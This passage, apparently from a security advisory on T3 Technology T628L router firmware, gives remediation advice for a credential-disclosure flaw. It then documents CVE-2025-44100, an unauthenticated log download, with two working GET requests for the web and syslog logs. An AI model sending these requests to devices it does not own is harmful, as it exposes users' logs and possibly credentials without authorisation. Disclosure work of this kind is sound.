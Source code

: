 2. **Long-Term Fix (for firmware vendor):**

   * Enforce authentication checks in `get_factorytest_info`.
   * Remove any code path that discloses sensitive credentials in cleartext.
   * Consider storing credentials in hashed form and never exposing them via CGI.

3. **Recommended Best Practices:**

   * Rotate all administrative passwords on affected devices immediately after patching.
   * Monitor device logs for suspicious requests to `/cgi-bin/ajax`.

---

## 2. CVE-2025-44100: Incorrect Access Control in `download` → Arbitrary Log File Download

> **Description:**
> A crafted GET request to
>
> ```
> /cgi-bin/download?{logtype}
> ```
>
> allows any remote, unauthenticated attacker to download arbitrary log files (`web`, `syslog`).

### 2.1 Affected Versions

* **Product:** T3 Technology T628L, HW V1.1
* **Firmware:** v1.1.05L
* **Component:** `download` executable, function `main`

### 2.2 Vulnerability Type

* **Incorrect Access Control**
* **Impact:** Information Disclosure (Log Files)

### 2.3 Attack Vector

Without any credentials or session token, an attacker can request any supported log type:

```
GET /cgi-bin/download?web HTTP/1.1
Host: <router-IP>
Connection: close
```

Or:

```
GET /cgi-bin/download?syslog HTTP/1.1
Host: <router-IP>
Connection: close
```

* **`web`**: contains web UI logs (e.g., user activity, potential credentials if logged).
* **`syslog`**: contains system logs (e.g., kernel messages, potential error dumps).
